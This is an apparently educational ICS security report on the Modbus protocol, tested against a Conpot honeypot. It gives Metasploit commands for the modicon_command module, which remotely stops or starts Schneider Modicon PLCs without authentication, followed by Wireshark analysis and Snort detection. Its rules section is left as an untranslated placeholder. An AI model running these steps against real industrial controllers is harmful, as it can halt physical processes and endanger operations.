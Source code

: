 # Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting working status of PLC.
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack

The module used was written by K. Reid Wightman. Let's start with her saying that  "The exploit is otherwise reliable, but depends on a specific version and can't (or doesn't) reliably autodetect."

***

# Vulnerability Overview

#### Improper Input Validation

This module allows a remote user to change the status of the PLC between stop and run.


For this, this module sends a series of initialization requests.<br>


#### Vulnerability Details
The Schneider Modicon with Unity series of PLCs use Modbus function code 90 (0x5a) to perform administrative commands without authentication.

It communicates using ModBus, or Telnet over Ethernet as well as<br>

Having a web server built in that allows a user to issue commands.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.



## Impact

Successful exploitation of this vulnerability would allow an attacker to end process control by the PLC, allowing the PLC to switch its state between stop and run. Thus, the attacker can create many problems depending on the PLC's function.<br>

Impact to individual organizations depends on many factors that are unique to each organization.

<br>

***

# Exploitation of Vulnerability
As we mentioned before, with this exploit; attacker can cause a denial of service of the system.

In order to exploit the vulnerability we need to download [Metasploit](https://github.com/rapid7/metasploit-framework)<br>

After downloading metasploit we can run it by typing;

```
# msfconsole
```

We can see the ModBus Frameworks' modules by typing;

```
# show all
```

```
# use /auxiliary/admin/scada/modicon_command
```

```
# show options
```

We have checked what parameters our exploit needs to run. This exploit needs;<br>

`RHOST` = remote host ip address,<br>


paramateres.

```
# set RHOSTS <ip>
```

After giving the parameters which are wanted we are ready to run it.

```
# exploit
```

As you can see above, dos attack has started.

***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark1.png">
</p>

Double-clicking on the line will open the package content. 
<br>
If we click Ethernet II line the linked parts will be highlighted. And so we can see the address information and the name of the protocol used.

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark2.png">
</p>

<br>
IP Header holds network layer information. Of these, it keeps the information of the IPv4 protocol, which is accepted as the backbone of the OSI model, in all its details.

<br/>
<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshrak3.png">
</p>

<br>
TCP, UDP, ICMP are important protocols of the transport layer of the OSI model given in the host-to-host connection. They play an important role in the error-free transmission of data. When it examines network layer information in Wireshark, you can see that TCP is used to communicate with the target device.
 
***

# Rules
As a result of using this module, an alarm as below was generated by the snort on the target machine.
<br>

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/alarm_command.png">
</p>

<br>
Accordingly, we can say that there is a rule used for the modicon_command module on snort. The rules used are as follows.

```
# burada görüntü kural olmalı 
```




